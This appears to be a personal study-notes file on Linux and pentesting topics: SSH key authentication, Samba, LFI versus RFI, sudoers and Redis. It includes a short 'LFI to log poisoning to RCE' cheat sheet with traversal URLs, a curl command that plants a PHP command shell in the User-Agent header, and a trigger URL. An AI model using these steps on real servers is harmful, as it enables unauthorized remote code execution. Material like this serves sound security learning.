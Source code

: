 
# How SSH Key-Based Authentication Works
---

## Overview

SSH key-based authentication lets you log into a remote system **without a password**, using a **cryptographic key pair**:

- **Private Key** → stays on your machine
- **Public Key** → copied to the server (in `~/.ssh/authorized_keys`)

---

## Step-by-Step Authentication Process

### 1. Client Offers Key Type

The client begins the SSH connection and tells the server:
> "I want to authenticate using an `ssh-rsa` key."

---

### 2.  Server Checks `authorized_keys`

The server checks:

```
/home/<user>/.ssh/authorized_keys
```

It looks for a **matching public key**.

---

### 3.  Challenge–Response Authentication

- **Server** sends a random challenge (nonce)
- **Client** signs the challenge using their private key

---

### 4.  Server Verifies the Signature

- Using the public key from `authorized_keys`, the server checks:
  > "Did this private key really sign my challenge?"

 If the signature is valid → authentication **succeeds**  
 Otherwise → **access denied**

---

## What Goes in `~/.ssh/authorized_keys`

An example entry:

```
ssh-rsa AAAAB3... user@machine
```

- `ssh-rsa` → Key type
- `AAAAB3...` → Base64-encoded public key
- `user@machine` → Optional comment

-------------------------------------------------------------------
# What's SSH tunneling 




-----------------------------------------------------------------
# Samba 
Samba is a Linux/Unix implementation of the SMB/CIFS protocol that lets non‑Windows machines act as file‐ and print‐servers (or join Windows domains). At a high level:

## Services & Files  
- **Daemons**  
  - `smbd` – file/printer sharing  
  - `nmbd` – NetBIOS name service  
  - `winbindd` – AD user/group mapping  
- **Config**: `/etc/samba/smb.conf`  
- **Logs**: `/var/log/samba/`


## List shares: 
```bash
smbclient -L //<host> -U <user> 
```

## Mount shares:
```bash 
mount -t cifs //server/share /mnt \
  -o username=dora,password=Secret123
```

--------------------------------------------------------------

# LFI vs RFI
## LFI
    You can read arbitrary files (e.g. /etc/passwd).
    You may escalate to RCE by poisoning logs (e.g. access your PHP code into access.log and then include it).
    No direct outbound HTTP fetch is needed—everything is local.

## RFI
    The app fetches PHP code from your server and executes it immediately.
    You get straight up remote shell or backdoor.
    Modern PHP ships with allow_url_include=Off to block this by default.


# LFI → Log Poisoning → RCE Cheat Sheet

1. **Identify log file path**  
  Look at the config file before 
   ```bash
   # Try common Apache log locations via LFI
   http://TARGET/?something=../../../../../../var/log/apache2/access.log
   http://TARGET/?something=../../../../../../var/log/httpd/access_log
   ```
2. **Inject php code**
  ```bash 
  curl -A "<?php system(\$_GET['cmd']); ?>" http://TARGET/
  ```
3. **Trigger LFI to include the poisoned log**
http://TARGET/image.php?img=../../../../../../var/log/apache2/access.log%00&cmd=id


----------------------------------
# The sudoers file 

Configuration file that defines who (which users or groups) is allowed to run what commands as which users (usually root), and how (with or without password). It’s parsed by the sudo command and controls all of sudo’s behavior.
User specifications
## Grant specific users or groups the ability to run commands as other users:
EXP:
user    host = (run-as) options: commands
alice     ALL  = (ALL)       ALL
bob       web  = (root)      NOPASSWD: /usr/bin/systemctl restart apache2
%admins    ALL = (ALL:ALL)   ALL

----------------------------------
# Redis Database 
Redis is an open‑source, in‑memory data store often used as a cache or simple database. At its core it holds keys and values (think of it like a really fast hash table).

## Key Concept
- Data store: You connect with redis-cli and can run commands like SET key value and GET key.
- Persistence: Even though it keeps data in memory, Redis can “dump” its state to disk (an RDB file) or append every write to a log (AOF).
- Replication: You can configure one Redis server to replicate another. The “slave” logs every write the “master” does.

